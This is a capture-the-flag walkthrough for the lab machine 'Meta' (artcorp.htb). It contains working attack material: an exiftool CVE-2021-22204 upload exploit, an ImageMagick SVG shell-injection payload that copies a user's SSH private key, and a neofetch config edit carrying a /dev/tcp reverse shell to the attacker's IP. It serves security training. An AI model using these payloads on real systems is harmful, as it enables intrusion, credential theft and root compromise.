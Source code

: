## Nmap
```
└─$ nmap -sC -sV 10.10.11.140
Starting Nmap 7.91 ( https://nmap.org ) at 2022-05-01 04:50 EDT
Nmap scan report for artcorp.htb (10.10.11.140)
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.04 seconds
```

Port `80` is opened , let's check 

![WebPage](https://user-images.githubusercontent.com/8396956/166138534-ef70f047-2d20-4769-aaee-8096e8d56be8.png)

adding `artcorp.htb` into `/etc/hosts`
then i tried to scan the webpages but got nothing 

## Fuzzing
```
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --sc 200 -H "HOST:FUZZ.artcorp.htb" http://artcorp.htb/                                                                                      148 ⨯ 1 ⚙
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://artcorp.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================

000001492:   200        9 L      24 W       247 Ch      "dev01 - dev01"  

```

Adding `dev01.artcorp.htb` into /etc/hosts

![dev1](https://user-images.githubusercontent.com/8396956/166138808-15d7987a-29ed-401a-89ee-1e80a1627981.png)

Go to  `MetaView`

![dev2](https://user-images.githubusercontent.com/8396956/166138812-61c7a303-e142-4c10-8cb7-a6d7ac18b97a.png)

Upload any image as a test

![uploadTest](https://user-images.githubusercontent.com/8396956/166138961-df1aac49-54e3-456c-b254-1e2bd0745a67.png)

trying to exploit this upload function , found that the result looks like the `exiftool` result 

![exiftool](https://user-images.githubusercontent.com/8396956/166139055-f492b990-65eb-45fa-b6c1-66f6c2fd671d.png)

after searching for exploit to `exiftool` found [Exiftool Exploitation](https://github.com/convisolabs/CVE-2021-22204-exiftool)

Don't forget to change  `IP & PORT` then run `exploit.py`

![pythonEXP](https://user-images.githubusercontent.com/8396956/166139282-119b8615-310b-479b-aaf9-4ef806ff6b53.png)

upload `image.jpg` and listen to port 

## Foothold
![wwwdata](https://user-images.githubusercontent.com/8396956/166139405-00d45680-d630-4933-a329-d895aeab2a88.png)

## Privilege escalation

After Enumeration and using tools got a good result with `pspy64`

First download it on the victim machine

![openpython](https://user-images.githubusercontent.com/8396956/166139724-61d52778-8a90-4f8b-af72-ea8e9ab2a5cf.png)
![psupload](https://user-images.githubusercontent.com/8396956/166139729-1f121464-c7cb-49ab-bd78-dfe8a73712c8.png)

Run `pspy64` we will find a script

```
2022/05/01 05:18:01 CMD: UID=1000 PID=1437   | /bin/bash /usr/local/bin/convert_images.sh 
2022/05/01 05:18:01 CMD: UID=0    PID=1436   | /usr/sbin/CRON -f 
2022/05/01 05:18:01 CMD: UID=1000 PID=1435   | /bin/bash /usr/local/bin/convert_images.sh 
2022/05/01 05:18:01 CMD: UID=1000 PID=1433   | /bin/sh -c /usr/local/bin/convert_images.sh 
```

here is the content of `convert_images.sh`

```
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

this uses `mogrify` to change all files into png , `The mogrify program is a member of the ImageMagick suite of tools`

```
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ /usr/local/bin/mogrify -version
<tcorp.htb/metaview$ /usr/local/bin/mogrify -version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```
searching for exploitation to this version and found [Exploitation](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)
Create `poc.svg`

```
<image authenticate='ff" `echo $(id)> /dev/shm/0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```


move it into `/var/www/dev01.artcorp.htb/convert_images/`

check `/dev/shm/` 
```
www-data@meta:/tmp$ cd /dev/shm
cd /dev/shm
www-data@meta:/dev/shm$ ls -la
ls -la
total 4
drwxrwxrwt  2 root   root     60 May  1 06:31 .
drwxr-xr-x 16 root   root   3080 May  1 04:31 ..
-rw-r--r--  1 thomas thomas   54 May  1 06:29 0wned
www-data@meta:/dev/shm$ cat 0wned
cat 0wned
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)

```
we execute commands as `thomas` let's get ssh to connect by changing first line to 

``` <image authenticate='ff" `echo $(cat ~/.ssh/id_rsa)> /dev/shm/id_rsa`;"'> ```


www-data@meta:/dev/shm$ ls -la
ls -la
total 8
drwxrwxrwt  2 root   root     80 May  1 06:41 .
drwxr-xr-x 16 root   root   3080 May  1 04:31 ..
-rw-r--r--  1 thomas thomas   54 May  1 06:29 0wned
-rw-r--r--  1 thomas thomas 2590 May  1 06:41 id_rsa

We got ssh of user `thomas` ,  download it into attacker machine 

www-data@meta:/dev/shm$ python3 -m http.server 8005
python3 -m http.server 8005
Serving HTTP on 0.0.0.0 port 8005 (http://0.0.0.0:8005/) ...
10.10.14.4 - - [01/May/2022 06:42:26] "GET /id_rsa HTTP/1.1" 200 -

then give it right permissions `chmod 600 id_rsa` and connect using the key ^_^

![thomas](https://user-images.githubusercontent.com/8396956/166142546-6f15b3e9-9ef6-424b-baf9-d16a331ff417.png)

## Root

```
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

searching for `neofetch` exploitation , found [neofetch](https://gtfobins.github.io/gtfobins/neofetch/)

but the problem we must enter specific parameters

let's edit the config file 
```
thomas@meta:~$ cd ~/.config/neofetch/
thomas@meta:~/.config/neofetch$ ls -la
total 24
drwxr-xr-x 2 thomas thomas  4096 Dec 20 08:33 .
drwxr-xr-x 3 thomas thomas  4096 Aug 30  2021 ..
-rw-r--r-- 1 thomas thomas 14591 Aug 30  2021 config.conf
thomas@meta:~/.config/neofetch$ 
```
edit it with `nano config.conf` and add reverse shell ```/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"```
```
thomas@meta:~/.config/neofetch$ nano config.conf
thomas@meta:~/.config/neofetch$ export XDG_CONFIG_HOME="$HOME/.config"
thomas@meta:~/.config/neofetch$ nano config.conf
thomas@meta:~/.config/neofetch$ sudo /usr/bin/neofetch \"\"
```
```
┌──(mido㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from artcorp.htb [10.10.11.140] 46732
root@meta:/home/thomas/.config/neofetch# 
```

## Rooted 




